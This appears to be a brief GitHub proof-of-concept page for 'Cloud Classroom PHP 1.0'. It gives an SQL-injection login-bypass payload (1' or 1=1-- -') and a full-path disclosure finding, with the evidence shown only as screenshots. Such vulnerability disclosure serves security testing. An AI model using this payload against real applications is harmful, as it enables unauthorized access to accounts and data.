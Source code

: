 # Cloud-Classroom-PHP-1.0---Poc2

SQL-Injection Bypass-Authentication

Payload: 1' or 1=1-- -'

<img width="1345" height="416" alt="image" src="https://github.com/user-attachments/assets/fd7aa3cc-f0fd-46d9-8f51-ed689c3d6204" />

Full-path disclose

<img width="1417" height="470" alt="image" src="https://github.com/user-attachments/assets/b5a339a0-0930-4900-ad74-d55a97f93914" />


<img width="1330" height="269" alt="image" src="https://github.com/user-attachments/assets/97d8405e-0830-4ee6-81e6-9e9557b082a8" />
